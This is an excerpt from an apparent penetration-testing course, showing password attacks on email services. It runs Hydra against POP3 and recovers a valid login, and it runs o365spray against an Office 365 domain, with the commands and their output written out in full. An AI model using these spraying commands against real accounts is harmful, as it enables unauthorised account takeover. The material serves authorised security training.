 ```shell-session
```

## Password Attacks

We can use `Hydra` to perform a password spray or brute force against email services such as `SMTP`, `POP3`, or `IMAP4`. First, we need to get a username list and a password list and specify which service we want to attack. Let us see an example for `POP3`.

### **Hydra - Password Attack**

```shell-session
al1abb@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something (which happens often), the tools may not work anymore. This is a perfect example of why we must understand what our tools are doing and have the know-how to modify them if they do not work properly for some reason.

### **O365 Spray - Password Spraying**

```shell-session
al1abb@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
```